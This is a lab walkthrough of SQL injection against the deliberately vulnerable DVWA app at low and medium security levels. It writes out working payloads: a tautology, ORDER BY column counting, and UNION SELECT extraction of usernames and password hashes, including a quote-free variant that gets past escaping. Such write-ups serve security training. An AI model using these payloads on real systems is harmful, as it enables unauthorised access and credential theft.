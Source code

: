 # SQL Injection

Objective: DVWA has 5 users in the database with ID's from 1 to 5. Retrieve information via SQLi.

## Security Level: LOW

DVWA has the function, where user can enter ID and the application retreives First name and Surname that belongs to the ID.

![image](https://github.com/user-attachments/assets/005092a9-d8cf-4a4c-ba74-a35df6a30880)

The function uses the below SQL query to retrieve data from the data base:

```bash
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

Since there is no input validation, sql injection can be exploited. Passing single qoute as input return internal server error, indicates sqli is 
possible.

Using input as below.
```
1' OR '1'='1
```
This input is passed to the SQL statement as below:
```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1' = '1';
```
Since '1' = '1' is always true, select statement returns all the values present in the database.

![image](https://github.com/user-attachments/assets/0c4da4b5-a72d-47da-8109-15b00490db87)

---

## Retrieve Password from another table using UNION attack

First, we need find number of columns present in the `user` table. We can confirm this by passing the following crafted input.

- `' order by 1#` - causes fatal error
- `' order by 2#` - No error
- `' order by 3#` - fatal error

This confirms that there are 2 columns.

Next, we need to find datatype of the columns.

- `' UNION SELECT 'abc','abc' from users #`

From MariaDB knowledge base, we can figure out the column names.

https://mariadb.com/kb/en/mysql-user-table/

Now, use the found column names (user, password) in the union sql injection

```
' UNION SELECT user, password from users #

```

Query returned username and password hashes.

![image](https://github.com/user-attachments/assets/a6ce6916-997a-4980-8cf1-54ac567905fc)

Lets try this burp suite:

Request from the application is intercepted and sent to repeater.

In the request tab, Used `' UNION SELECT user, password from users #` and url encoded and sent to the application.

![image](https://github.com/user-attachments/assets/b7e726d3-8571-43ab-8fc3-cc4415bbb7d1)

The response received:

![image](https://github.com/user-attachments/assets/d7ef67f5-55c8-45d1-a9b5-6438c2934162)


The hashed password can be decoded.


## Security Level: Medium

```bash
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

In medium level security, the input id is directly used in the sql statement.
Parameters like single quotes are escaped.

```
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

![image](https://github.com/user-attachments/assets/f5e83c21-85de-4c57-8c39-a6974a1d3576)


Since we cant use single quote craft input without quotes:

```bash
1 or 1=1 UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/69a4bc3e-984a-472c-b158-20abcbc9b63e)

This successfully gets injected to the SQL source code, retriving data from users table.

```bash
SELECT firstname, lastname FROM users WHERE user_id = 1 or 1=1 UNION SELECT user,password FROM users#
```

![image](https://github.com/user-attachments/assets/6d69cc5b-cdf6-41ec-8b0f-13a950b9aa42)

